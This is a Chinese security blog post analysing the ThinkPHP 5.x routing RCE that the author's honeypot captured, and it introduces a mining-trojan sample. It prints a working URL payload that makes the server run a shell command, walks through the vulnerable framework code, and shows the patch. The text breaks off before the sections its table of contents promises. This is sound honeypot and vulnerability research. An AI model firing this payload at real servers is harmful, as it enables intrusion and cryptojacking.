







<!DOCTYPE html><html lang="en"><head><meta http-equiv="content-type" content="text/html; charset=utf-8"><meta content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=0" name="viewport"><meta content="yes" name="apple-mobile-web-app-capable"><meta content="black-translucent" name="apple-mobile-web-app-status-bar-style"><meta content="telephone=no" name="format-detection"><meta name="description" content=""><title>基于Thinkphp5.X-RCE漏洞的挖矿木马分析 | Kevinsa</title><link rel="stylesheet" type="text/css" href="/css/style.css?v=0.0.0"><link rel="stylesheet" type="text/css" href="//cdn.jsdelivr.net/npm/normalize.css/normalize.min.css"><link rel="stylesheet" type="text/css" href="//cdn.jsdelivr.net/npm/purecss/build/pure-min.min.css"><link rel="stylesheet" type="text/css" href="//cdn.jsdelivr.net/npm/purecss/build/grids-responsive-min.css"><link rel="stylesheet" href="//cdn.jsdelivr.net/npm/font-awesome@4.7.0/css/font-awesome.min.css"><script type="text/javascript" src="//cdn.jsdelivr.net/npm/jquery/dist/jquery.min.js"></script><link rel="icon" mask="" sizes="any" href="/favicon.ico"><link rel="Shortcut Icon" type="image/x-icon" href="/favicon.ico"><link rel="apple-touch-icon" href="/apple-touch-icon.png"><link rel="apple-touch-icon-precomposed" href="/apple-touch-icon.png"><script type="text/javascript" src="//cdn.jsdelivr.net/npm/clipboard/dist/clipboard.min.js"></script><script type="text/javascript" src="//cdn.jsdelivr.net/gh/codeseven/toastr/build/toastr.min.js"></script><link rel="stylesheet" href="//cdn.jsdelivr.net/gh/codeseven/toastr/build/toastr.min.css"><meta name="generator" content="Hexo 5.2.0"></head><body><div class="body_container"><div id="header"><div class="site-name"><h1 class="hidden">基于Thinkphp5.X-RCE漏洞的挖矿木马分析</h1><a id="logo" href="/.">Kevinsa</a><p class="description">When you bring me out, can you introduce me as Joker?</p></div><div id="nav-menu"><a class="current" href="/."><i class="fa fa-home"> Home</i></a><a href="/archives/"><i class="fa fa-archive"> Archive</i></a><a href="/about/"><i class="fa fa-user"> About</i></a></div></div><div class="pure-g" id="layout"><div class="pure-u-1 pure-u-md-3-4"><div class="content_container"><div class="post"><h1 class="post-title">基于Thinkphp5.X-RCE漏洞的挖矿木马分析</h1><div class="post-meta">2019-09-15<span> | </span><span class="category"><a href="/categories/%E8%9C%9C%E7%BD%90/">蜜罐</a></span></div><div class="post-content"><p>Thinkphp框架在5.x多个小版本中存在由于路由解析缺陷导致的远程命令执行漏洞，个人基于thinkphp5.2版本部署的蜜罐分别于04-28、05-07捕获两个基于该漏洞的恶意挖矿木马。本文在分析该漏洞原理的基础上并对两个挖矿木马进行分析。</p></p>
<!-- TOC -->

<ul>
<li><a href="#thinkphp-rce漏洞">Thinkphp-RCE漏洞</a><ul>
<li><a href="#恶意poc">恶意poc</a></li>
<li><a href="#漏洞调试">漏洞调试</a></li>
<li><a href="#补丁处理">补丁处理</a></li>
</ul>
</li>
<li><a href="#挖矿木马-a_thksh">挖矿木马 a_thk.sh</a></li>
<li><a href="#networkservice">networkservice</a></li>
<li><a href="#安全建议">安全建议</a></li>
<li><a href="#入侵排查">入侵排查</a></li>
</ul>
<!-- /TOC -->

<h3 id="Thinkphp-RCE漏洞"><a href="#Thinkphp-RCE漏洞" class="headerlink" title="Thinkphp-RCE漏洞"></a>Thinkphp-RCE漏洞</h3><h4 id="恶意poc"><a href="#恶意poc" class="headerlink" title="恶意poc"></a>恶意poc</h4><figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">?s&#x3D;index&#x2F;\think\app&#x2F;invokefunction&amp;function&#x3D;call_user_func_array&amp;vars[0]&#x3D;system&amp;vars[1][]&#x3D;id</span><br></pre></td></tr></table></figure>

<h4 id="漏洞调试"><a href="#漏洞调试" class="headerlink" title="漏洞调试"></a>漏洞调试</h4><h3 id="漏洞调试"><a href="#漏洞调试" class="headerlink" title="漏洞调试"></a>漏洞调试</h3><p>漏洞相关调用栈为：<br><br>在Thinkphp框架入口函数thinkphp/library/think/App.php<br>run function中两个关键处理：</p>

<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment">/**</span></span><br><span class="line"><span class="comment"> * 执行应用程序</span></span><br><span class="line"><span class="comment"> * <span class="doctag">@access</span> public</span></span><br><span class="line"><span class="comment"> * <span class="doctag">@param</span>  Request $request 请求对象</span></span><br><span class="line"><span class="comment"> * <span class="doctag">@return</span> Response</span></span><br><span class="line"><span class="comment"> * <span class="doctag">@throws</span> Exception</span></span><br><span class="line"><span class="comment"> */</span></span><br><span class="line"><span class="keyword">public</span> <span class="built_in">static</span> <span class="function"><span class="keyword">function</span> <span class="title">run</span>(<span class="params">Request $request = <span class="literal">null</span></span>)</span></span><br><span class="line"><span class="function"></span>&#123;</span><br><span class="line">    ···</span><br><span class="line">    <span class="comment">// 监听 app_dispatch</span></span><br><span class="line">        Hook::listen(<span class="string">&#x27;app_dispatch&#x27;</span>, <span class="built_in">self</span>::$dispatch);</span><br><span class="line">        <span class="comment">// 获取应用调度信息</span></span><br><span class="line">        $dispatch = <span class="built_in">self</span>::$dispatch;</span><br><span class="line"></span><br><span class="line">        <span class="comment">// 未设置调度信息则进行 URL 路由检测</span></span><br><span class="line">        <span class="keyword">if</span> (<span class="keyword">empty</span>($dispatch)) &#123;</span><br><span class="line">            $dispatch = <span class="built_in">self</span>::routeCheck($request, $config);</span><br><span class="line">        &#125;</span><br><span class="line"></span><br><span class="line">        <span class="comment">// 记录当前调度信息</span></span><br><span class="line">        $request-&gt;dispatch($dispatch);</span><br><span class="line"></span><br><span class="line">        <span class="comment">// 记录路由和请求信息</span></span><br><span class="line">        <span class="keyword">if</span> (<span class="built_in">self</span>::$debug) &#123;</span><br><span class="line">            Log::record(<span class="string">&#x27;[ ROUTE ] &#x27;</span> . var_export($dispatch, <span class="literal">true</span>), <span class="string">&#x27;info&#x27;</span>);</span><br><span class="line">            Log::record(<span class="string">&#x27;[ HEADER ] &#x27;</span> . var_export($request-&gt;header(), <span class="literal">true</span>), <span class="string">&#x27;info&#x27;</span>);</span><br><span class="line">            Log::record(<span class="string">&#x27;[ PARAM ] &#x27;</span> . var_export($request-&gt;param(), <span class="literal">true</span>), <span class="string">&#x27;info&#x27;</span>);</span><br><span class="line">        &#125;</span><br><span class="line"></span><br><span class="line">        <span class="comment">// 监听 app_begin</span></span><br><span class="line">        Hook::listen(<span class="string">&#x27;app_begin&#x27;</span>, $dispatch);</span><br><span class="line"></span><br><span class="line">        <span class="comment">// 请求缓存检查</span></span><br><span class="line">        $request-&gt;cache(</span><br><span class="line">            $config[<span class="string">&#x27;request_cache&#x27;</span>],</span><br><span class="line">            $config[<span class="string">&#x27;request_cache_expire&#x27;</span>],</span><br><span class="line">            $config[<span class="string">&#x27;request_cache_except&#x27;</span>]</span><br><span class="line">        );</span><br><span class="line"></span><br><span class="line">        $data = <span class="built_in">self</span>::exec($dispatch, $config);</span><br><span class="line">    ···</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<li>1、<code>$dispatch = self::routeCheck($request, $config);</code> url处理校验</li>
<li>2、<code>$data = self::exec($dispatch, $config);</code> 执行调用分发</li>
</ul>
<p>Route::check()函数中回会根据当前URL、路由定义返回相应检测结果，其中获取当前请求URL信息处理逻辑为<code>thinkphp/library/think/Route.php function parseUrl()</code>中<br>由<code>list($path, $var) = self:parseUrlPath($url);</code>获取[模块/控制钱/操作]

<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br></pre></td><td class="code"><pre><span class="line"><span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">pathinfo</span>(<span class="params"></span>)</span></span><br><span class="line"><span class="function">    </span>&#123;</span><br><span class="line">        <span class="keyword">if</span> (is_null(<span class="keyword">$this</span>-&gt;pathinfo)) &#123;</span><br><span class="line">            <span class="keyword">if</span> (<span class="keyword">isset</span>($_GET[Config::get(<span class="string">&#x27;var_pathinfo&#x27;</span>)])) &#123;</span><br><span class="line">                <span class="comment">// 判断URL里面是否有兼容模式参数</span></span><br><span class="line">                $_SERVER[<span class="string">&#x27;PATH_INFO&#x27;</span>] = $_GET[Config::get(<span class="string">&#x27;var_pathinfo&#x27;</span>)];</span><br><span class="line">                <span class="keyword">unset</span>($_GET[Config::get(<span class="string">&#x27;var_pathinfo&#x27;</span>)]);</span><br><span class="line">            &#125; <span class="keyword">elseif</span> (IS_CLI) &#123;</span><br><span class="line">                <span class="comment">// CLI模式下 index.php module/controller/action/params/...</span></span><br><span class="line">                $_SERVER[<span class="string">&#x27;PATH_INFO&#x27;</span>] = <span class="keyword">isset</span>($_SERVER[<span class="string">&#x27;argv&#x27;</span>][<span class="number">1</span>]) ? $_SERVER[<span class="string">&#x27;argv&#x27;</span>][<span class="number">1</span>] : <span class="string">&#x27;&#x27;</span>;</span><br><span class="line">            &#125;</span><br><span class="line"></span><br><span class="line">            <span class="comment">// 分析PATHINFO信息</span></span><br><span class="line">            <span class="keyword">if</span> (!<span class="keyword">isset</span>($_SERVER[<span class="string">&#x27;PATH_INFO&#x27;</span>])) &#123;</span><br><span class="line">                <span class="keyword">foreach</span> (Config::get(<span class="string">&#x27;pathinfo_fetch&#x27;</span>) <span class="keyword">as</span> $type) &#123;</span><br><span class="line">                    <span class="keyword">if</span> (!<span class="keyword">empty</span>($_SERVER[$type])) &#123;</span><br><span class="line">                        $_SERVER[<span class="string">&#x27;PATH_INFO&#x27;</span>] = (<span class="number">0</span> === strpos($_SERVER[$type], $_SERVER[<span class="string">&#x27;SCRIPT_NAME&#x27;</span>])) ?</span><br><span class="line">                        substr($_SERVER[$type], strlen($_SERVER[<span class="string">&#x27;SCRIPT_NAME&#x27;</span>])) : $_SERVER[$type];</span><br><span class="line">                        <span class="keyword">break</span>;</span><br><span class="line">                    &#125;</span><br><span class="line">                &#125;</span><br><span class="line">            &#125;</span><br><span class="line">            <span class="keyword">$this</span>-&gt;pathinfo = <span class="keyword">empty</span>($_SERVER[<span class="string">&#x27;PATH_INFO&#x27;</span>]) ? <span class="string">&#x27;/&#x27;</span> : ltrim($_SERVER[<span class="string">&#x27;PATH_INFO&#x27;</span>], <span class="string">&#x27;/&#x27;</span>);</span><br><span class="line">        &#125;</span><br><span class="line">        <span class="keyword">return</span> <span class="keyword">$this</span>-&gt;pathinfo;</span><br><span class="line">    &#125;</span><br></pre></td></tr></table></figure>

<p>该poc返回</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">$path = <span class="keyword">array</span>(<span class="string">&quot;index&quot;</span>, <span class="string">&quot;\think\app&quot;</span>, <span class="string">&quot;invokefunction&quot;</span>);</span><br></pre></td></tr></table></figure>
<p>该url router</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">$route = <span class="keyword">array</span>(<span class="string">&quot;index&quot;</span>, <span class="string">&quot;\think\app&quot;</span>, <span class="string">&quot;invokefunction&quot;</span>);</span><br></pre></td></tr></table></figure>
<p>而后run()函数中exec()将上文获取检测结果、调度信息、配置信息执行掉用分发进入self:exec()时</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">$dispatch = <span class="keyword">array</span>(<span class="string">&quot;type&quot;</span>=&gt;<span class="string">&quot;module&quot;</span>,<span class="string">&quot;module&quot;</span>=&gt;<span class="keyword">array</span>(<span class="string">&quot;index&quot;</span>,<span class="string">&quot;\think\app&quot;</span>,<span class="string">&quot;invokefunction&quot;</span>));</span><br><span class="line"></span><br></pre></td></tr></table></figure>

<p>在thinkphp/library/think/App.php function module()执行</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="keyword">return</span> <span class="built_in">self</span>:invokeMethod($call,$vars);</span><br></pre></td></tr></table></figure>

<p>该函数根据传入调用类型执行相应分发处理</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br></pre></td><td class="code"><pre><span class="line"><span class="keyword">protected</span> <span class="built_in">static</span> <span class="function"><span class="keyword">function</span> <span class="title">exec</span>(<span class="params">$dispatch, $config</span>)</span></span><br><span class="line"><span class="function">   </span>&#123;</span><br><span class="line">       <span class="keyword">switch</span> ($dispatch[<span class="string">&#x27;type&#x27;</span>]) &#123;</span><br><span class="line">           <span class="keyword">case</span> <span class="string">&#x27;redirect&#x27;</span>: <span class="comment">// 重定向跳转</span></span><br><span class="line">               $data = Response::create($dispatch[<span class="string">&#x27;url&#x27;</span>], <span class="string">&#x27;redirect&#x27;</span>)</span><br><span class="line">                   -&gt;code($dispatch[<span class="string">&#x27;status&#x27;</span>]);</span><br><span class="line">               <span class="keyword">break</span>;</span><br><span class="line">           <span class="keyword">case</span> <span class="string">&#x27;module&#x27;</span>: <span class="comment">// 模块/控制器/操作</span></span><br><span class="line">               $data = <span class="built_in">self</span>::module(</span><br><span class="line">                   $dispatch[<span class="string">&#x27;module&#x27;</span>],</span><br><span class="line">                   $config,</span><br><span class="line">                   <span class="keyword">isset</span>($dispatch[<span class="string">&#x27;convert&#x27;</span>]) ? $dispatch[<span class="string">&#x27;convert&#x27;</span>] : <span class="literal">null</span></span><br><span class="line">               );</span><br><span class="line">               <span class="keyword">break</span>;</span><br><span class="line">           <span class="keyword">case</span> <span class="string">&#x27;controller&#x27;</span>: <span class="comment">// 执行控制器操作</span></span><br><span class="line">               $vars = array_merge(Request::instance()-&gt;param(), $dispatch[<span class="string">&#x27;var&#x27;</span>]);</span><br><span class="line">               $data = Loader::action(</span><br><span class="line">                   $dispatch[<span class="string">&#x27;controller&#x27;</span>],</span><br><span class="line">                   $vars,</span><br><span class="line">                   $config[<span class="string">&#x27;url_controller_layer&#x27;</span>],</span><br><span class="line">                   $config[<span class="string">&#x27;controller_suffix&#x27;</span>]</span><br><span class="line">               );</span><br><span class="line">               <span class="keyword">break</span>;</span><br></pre></td></tr></table></figure>

<p>跟进self:module()处理</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br></pre></td><td class="code"><pre><span class="line"><span class="keyword">if</span> (is_callable([$instance, $action])) &#123;</span><br><span class="line">           <span class="comment">// 执行操作方法</span></span><br><span class="line">           $call = [$instance, $action];</span><br><span class="line">           <span class="comment">// 严格获取当前操作方法名</span></span><br><span class="line">           $reflect    = <span class="keyword">new</span> \ReflectionMethod($instance, $action);</span><br><span class="line">           $methodName = $reflect-&gt;getName();</span><br><span class="line">           $suffix     = $config[<span class="string">&#x27;action_suffix&#x27;</span>];</span><br><span class="line">           $actionName = $suffix ? substr($methodName, <span class="number">0</span>, -strlen($suffix)) : $methodName;</span><br><span class="line">           $request-&gt;action($actionName);</span><br><span class="line"></span><br><span class="line">       &#125; <span class="keyword">elseif</span> (is_callable([$instance, <span class="string">&#x27;_empty&#x27;</span>])) &#123;</span><br><span class="line">           <span class="comment">// 空操作</span></span><br><span class="line">           $call = [$instance, <span class="string">&#x27;_empty&#x27;</span>];</span><br><span class="line">           $vars = [$actionName];</span><br><span class="line">       &#125; <span class="keyword">else</span> &#123;</span><br><span class="line">           <span class="comment">// 操作不存在</span></span><br><span class="line">           <span class="keyword">throw</span> <span class="keyword">new</span> HttpException(<span class="number">404</span>, <span class="string">&#x27;method not exists:&#x27;</span> . get_class($instance) . <span class="string">&#x27;-&gt;&#x27;</span> . $action . <span class="string">&#x27;()&#x27;</span>);</span><br><span class="line">       &#125;</span><br><span class="line"></span><br><span class="line">       Hook::listen(<span class="string">&#x27;action_begin&#x27;</span>, $call);</span><br><span class="line"></span><br><span class="line">       <span class="keyword">return</span> <span class="built_in">self</span>::invokeMethod($call, $vars);</span><br></pre></td></tr></table></figure>

<p>将相关参数带进function invokeMethod() </p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br></pre></td><td class="code"><pre><span class="line"><span class="keyword">public</span> <span class="built_in">static</span> <span class="function"><span class="keyword">function</span> <span class="title">invokeMethod</span>(<span class="params">$method, $vars = []</span>)</span></span><br><span class="line"><span class="function">    </span>&#123;</span><br><span class="line">        <span class="keyword">if</span> (is_array($method)) &#123;</span><br><span class="line">            $class   = is_object($method[<span class="number">0</span>]) ? $method[<span class="number">0</span>] : <span class="built_in">self</span>::invokeClass($method[<span class="number">0</span>]);</span><br><span class="line">            $reflect = <span class="keyword">new</span> \ReflectionMethod($class, $method[<span class="number">1</span>]);</span><br><span class="line">        &#125; <span class="keyword">else</span> &#123;</span><br><span class="line">            <span class="comment">// 静态方法</span></span><br><span class="line">            $reflect = <span class="keyword">new</span> \ReflectionMethod($method);</span><br><span class="line">        &#125;</span><br><span class="line"></span><br><span class="line">        $args = <span class="built_in">self</span>::bindParams($reflect, $vars);</span><br><span class="line"></span><br><span class="line">        <span class="built_in">self</span>::$debug &amp;&amp; Log::record(<span class="string">&#x27;[ RUN ] &#x27;</span> . $reflect-&gt;class . <span class="string">&#x27;-&gt;&#x27;</span> . $reflect-&gt;name . <span class="string">&#x27;[ &#x27;</span> . $reflect-&gt;getFileName() . <span class="string">&#x27; ]&#x27;</span>, <span class="string">&#x27;info&#x27;</span>);</span><br><span class="line"></span><br><span class="line">        <span class="keyword">return</span> $reflect-&gt;invokeArgs(<span class="keyword">isset</span>($class) ? $class : <span class="literal">null</span>, $args);</span><br><span class="line">    &#125;</span><br></pre></td></tr></table></figure>

<p>中最后执行<br>ReflectionMethod::invokeArgs 带参数执行</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br></pre></td><td class="code"><pre><span class="line">$reflect = <span class="keyword">new</span> \ReflectionFunction($function);</span><br><span class="line">$function = <span class="string">&quot;call_user_func_array&quot;</span>;</span><br><span class="line"></span><br><span class="line"><span class="keyword">return</span> $reflect-&gt;invokeArgs(<span class="keyword">isset</span>($class) ? $class : <span class="literal">null</span>, $args);</span><br><span class="line"></span><br><span class="line">$reflect = <span class="keyword">array</span>(<span class="string">&quot;name&quot;</span>=&gt;<span class="string">&quot;invokeFunction&quot;</span>,<span class="string">&quot;class&quot;</span>=&gt;<span class="string">&quot;think\App&quot;</span>)</span><br><span class="line"></span><br><span class="line">$args = <span class="keyword">array</span>(<span class="string">&quot;system&quot;</span>,<span class="keyword">array</span>(<span class="string">&quot;id&quot;</span>));</span><br></pre></td></tr></table></figure>

<p>实现代码执行</p>
<h3 id="补丁处理"><a href="#补丁处理" class="headerlink" title="补丁处理"></a>补丁处理</h3><p>增加正则表达式处理</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">preg_match(<span class="string">&#x27;/^[A-Za-z](\w|\.)*$/&#x27;</span>, $controller) &#123;</span><br><span class="line">    <span class="keyword">throw</span> <span class="keyword">new</span> HttpException(····);</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<p>即禁止传入\think\app并执行后续调用分发。</p>
<h2 id="挖矿木马-a-thk-sh"><a href="#挖矿木马-a-thk-sh" class="headerlink" title="挖矿木马 a_thk.sh"></a>挖矿木马 a_thk.sh</h2><ul>
<li>样本：docker: kevinsafs/honeydata:thinkphpa_thk.sh<br>该木马基于Thinkphp5.x RCE后后续执行shell脚本简单处理直接执行挖矿主体，没有其他横向移动、扫描等模块，不展开分析。</li>
</ul>
恶意流量

